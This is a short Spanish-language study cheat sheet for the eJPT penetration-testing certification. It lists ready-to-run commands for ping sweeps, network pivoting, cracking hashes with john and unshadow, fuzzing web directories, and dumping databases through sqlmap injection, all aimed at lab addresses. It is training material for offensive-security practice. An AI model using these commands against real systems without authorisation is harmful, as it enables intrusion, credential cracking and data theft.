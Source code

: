 # eJPT-Cheatsheet
Todos los comandos necesarios para aprobar el eJPT
# Barrido de ping - Ping sweep
## Nmap
```bash
nmap -sn 10.10.10.0/24
```
## fping
```bash
fping -a -g 10.10.10.0/24 2>/dev/null
```
# Pivoting
## Ip Route
```bash
ip route add 10.10.16.0/24 via 10.10.16.1 dev tap0
```
## Metasploit
```bash
run autoroute -s 10.10.16.0/24
```
# Password cracking
## John
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
## Online Tools
[CrackStation](https://crackstation.net/)
# Dump Hashes
## unshadow 
```bash
unshadow passwd shadow > unshadowed.txt
```
# Fuzzing
## Nmap
```bash
nmap --script=http-enum -p80 10.10.14.16 -oN webScan
```
## wfuzz
```bash
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ.php
```
## dirb
```bash
dirb http://10.10.15.12
```
## gobuster
```bash
gobuster dir -u 10.10.14.12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```
# SQLMap
```sql
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname -T table_name --dump
```
